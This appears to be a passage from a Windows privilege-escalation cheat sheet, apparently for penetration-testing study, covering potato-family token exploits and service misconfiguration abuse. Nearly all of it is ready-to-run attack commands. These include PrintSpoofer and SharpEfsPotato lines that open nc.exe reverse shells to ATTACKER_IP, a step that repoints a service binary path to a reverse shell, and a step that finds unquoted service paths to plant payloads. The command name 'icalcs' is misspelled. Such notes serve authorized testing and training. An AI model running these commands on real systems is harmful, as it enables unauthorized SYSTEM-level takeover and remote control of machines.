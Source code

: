 ```bash
whoami /priv
```

```bash
#Printspoofer
PrintSpoofer.exe -i -c powershell.exe
PrintSpoofer.exe -c "nc.exe ATTACKER_IP PORT -e cmd"

#RoguePotato
RoguePotato.exe -r ATTACKER_IP -e "shell.exe" -l 9999

#GodPotato
GodPotato.exe -cmd "cmd /c whoami"
GodPotato.exe -cmd "shell.exe"

#JuicyPotatoNG
JuicyPotatoNG.exe -t * -p "shell.exe" -a

#SharpEfsPotato
SharpEfsPotato.exe -p C:\temp\nc.exe -a "ATTACKER_IP PORT -e cmd" > w.log  #writes whoami command to w.log file
```

#### Services

#### Binary Hijacking

```bash
#Identify service from winpeas
icalcs "path"  #F means full permission, we need to check we have full access on folder
sc qc SERVICE_NAME  #find binarypath variable
sc config SERVICE_NAME binpath= "C:\temp\reverse.exe"  #change the path to the reverseshell location
sc start SERVICE_NAME
```

#### Unquoted Service Path

```bash
wmic service get name,pathname | findstr /i /v "C:\\" | findstr /i /v """  #Display services with unquoted paths
#Check the Writable path
icalcs "path"
#Insert the payload in writable location and which works.
sc start SERVICE_NAME
```

#### Insecure Service Executables

In Winpeas look for a service which has the following

```
File Permissions: Everyone [AllAccess]
```

